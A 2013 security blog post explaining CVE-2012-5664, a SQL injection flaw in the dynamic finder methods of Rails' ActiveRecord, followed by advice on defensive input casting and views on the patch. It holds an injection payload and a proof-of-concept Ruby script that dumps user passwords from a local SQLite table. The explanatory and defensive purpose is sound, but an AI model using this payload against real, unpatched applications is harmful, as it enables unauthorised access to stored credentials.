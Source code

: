 ```yaml
---
layout: post
title: "CVE-2012-5664: Sql Injection on Rails... again"
date: 2013-01-04 09:00
comments: true
published: true
featured: false
tags: breakers sql-injection rails ruby-on-rails activerecord cve-2012-5664 ruby patch orm mysql postgresql
thumb: rails.png
level:
hn: http://news.ycombinator.com/item?id=5007689
rd: http://redd.it/15y8qg
---
```


2013 is well promising for application security. Two days ago [Aaron Patterson](https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/DCNTNp_qjFM),
a [rails](http://rubyonrails.com) core member announced a [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) vulnerability for
ActiveRecord ORM included in Rails framework.

Last [June](http://armoredcode.com/blog/cve-2012-2661-sqlinjection-on-rails/) we talked about a similiar vulnerability affecting ActiveRecord.

<!-- more -->

## Dynamic finders

The vulnerability is in ORM resource [dynamic finder methods](http://guides.rubyonrails.org/active_record_querying.html#dynamic-finders). 

Carefully crafted requests can be used to turn a dynamic finder method
parameter into a query scope.

Let us suppose you have a User model with two fields: an email and a password.
We also suppose that our code will take an id parameter from the outside and
using it to retrieve a user from the backend.

You can retrieve a user with a given id with a call like this one:

``` ruby ActiveRecord find_by_id
  u = User.find_by_id(params[:id])
``` 

The find\_by\_id method is not explicity declared by the User model, it's
dynamically created by ActiveRecord as well the methods:

* find\_by\_email
* find\_by\_password

## Exploiting it

If the parameter id passed to the dynamic find\_by\_id method, contains an Hash
this is used as options to the SELECT statement instead of being part of the
WHERE clause.

``` ruby the difference between a regular call and the attack
User.find_by_id(1) # REGULAR CALL => SELECT "users".* FROM "users" WHERE "users"."id" = 1 LIMIT 1
User.find_by_id({:select =>"* from users where id=4 --"}) # INJECTION => SELECT * from users where id=4 -- FROM "users" WHERE "users"."id" IS NULL LIMIT 1
``` 

This very trivial ruby script shows an in memory SQLite3 database managed with ActiveRecord as ORM.

``` ruby cve-2012-5664.rb
#!/usr/bin/env ruby

require 'active_record'
require 'logger'

ActiveRecord::Base.logger = Logger.new(STDERR)

ActiveRecord::Base.establish_connection(
    :adapter => "sqlite3",
    :database  => ":memory:"
)

ActiveRecord::Schema.define do
    create_table :users do |table|
        table.column :email, :string
        table.column :password, :string
    end
end

class User < ActiveRecord::Base
end

User.create(:email=>'admin_email', :password=>'admin_pwd')
User.create(:email=>'foo_email', :password=>'foo_pwd')
User.create(:email=>'bar_email', :password=>'bar_pwd')
User.create(:email=>'vuln_email', :password=>'vuln_pwd')

puts "Using ActiveRecord #{ActiveRecord::VERSION::STRING}"
puts "Exploiting find_by_id"

100.times do  |i|
  u = User.find_by_id({:select =>"* from users where id=#{i} --"})
  puts "Password for user with id #{i} is: #{u.password}" unless u.nil?
end
``` 

## The old fashioned defensive programming practice

ActiveRecord dynamic finders don't care about the input you pass them. Of
course it could be up to your application to properly sanitize the input
instead of passing params directly to find\_by\_id method.

I rather prefer this approach since your application knows exactly the meaning
of that line of code.

If you want your code to be robust against SQL Injection you must sanitize your input before moving forth. 

If you need to call find\_by\_id, the parameter **must** be an integer
identifier, so your approach would be explicitly casting to an Integer object.

``` ruby sanitize your find_by_id
sanitized_id = params[:id] # you have to consider the value tampered here

begin
  sanitized_id = sanitized_id.to_i
  # make your business logic specific choice here.
  #   * Can an id be negative?
  #   * Can an id be 0?
  #   * Have you got some particular constraint about ids? (e.g. valid ids are between 500 and 1200)
  sanitized_id = nil if sanitized_id <= 0
  sanitized_id = nil unless ( sanitized_id >= 500 and sanitized_id <= 1200)
rescue NoMethodError 
  sanitized_id = nil
end

u = User.find_by_id(sanitized_id)

# Do your stuff

...

``` 

Of course this is just an example showing a security aware approach when
reading a parameter that you want to manage like an Integer before using it in
your ORM of choice.

Do you think adding some security checks break your agile workout? Do you think
it's just an unnecessary step adding latency to your _fast and furious_
website?

You may want to think it twice before answering. My point of view is that for
sentive parameters read from HTTP request you have to carefully handle it
before passing to backend.

## Off by one

On [Hacker news](http://news.ycombinator.com/item?id=4999406) you can find some
comments about recent [Github security issue](http://phenoelit.org/blog/archives/2012/12/21/let_me_github_that_for_you/index.html)
exploiting Rails using this SQL Injection to override some popular Rails
authentication framework.

On [Phusion blog](http://blog.phusion.nl/2013/01/03/rails-sql-injection-vulnerability-hold-your-horses-here-are-the-facts/#.UObCq4njk2Z)
a more detailed and security aware dissertion was made in order to explain that
there is of course a problem in the dynamic finder methods for ActiveRecord but
exploiting it it's a very hard task. And I agree with it.

The main problem looking at [the patch](https://rubyonrails-security.googlegroups.com/attach/23daa048baf28b64/3-2-dynamic_finder_injection.patch?view=1&part=5)
is that in my opinion, it solves *this* problem but it doesn't make a solid
framework for input validation before building the query.

Adding your web application code to some positive filtering for the parameters you read helps you in:

* be transparent about the security model of your underlying framework
* be confident that input will fit what you expect from the user with ad hoc controls

The overhead in execution time can be, of course, an issue for impatient
developers but the tradeoff between being compromised and having a couple of if
statements to be executed can be a well tolerated solution.

What do you think about it? Is defensive programming a solution or just a redundant piece of code?
Tell me your thoughts.
